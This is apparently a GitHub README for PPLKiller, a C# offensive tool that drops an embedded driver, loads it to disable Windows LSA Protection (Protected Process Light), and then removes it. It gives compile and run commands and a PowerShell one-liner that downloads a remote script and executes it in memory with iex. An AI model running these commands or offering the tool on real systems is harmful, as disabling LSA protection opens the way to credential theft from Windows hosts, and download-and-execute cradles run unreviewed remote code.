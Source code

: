 # PPLKiller
Tool to bypass LSA Protection (aka Protected Process Light). This is a c# re-write of [PPLKiller by RedCursorSecurityConsulting](https://github.com/RedCursorSecurityConsulting/PPLKiller)

I worked on this tool so that I could then create a powershell script out of it.

How the tool differs from the original:

- you won't need to place the driver on current location, as the script will do it itself (b64 embedded)

- no flags/parameters are needed when running the tool

The tool will take care of placing the driver on disk, loading it, disable PPL, unload the driver, and deleting the driver from disk.

## Compile

```
csc /platform:x64 /out:PPLKiller.exe PPLKiller.cs
```

## Run (exe)

```
PPLKiller.exe
```
![image](https://github.com/user-attachments/assets/36592f5e-58d3-4c10-8c49-d684d96e5e6e)

## Run (Invoke-PPLKiller)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PPLKiller/main/Invoke-PPLKiller.ps1')
```
```
Invoke-PPLKiller
```
![image](https://github.com/user-attachments/assets/6bf72346-bbc2-45e3-8313-0b82abe2c187)

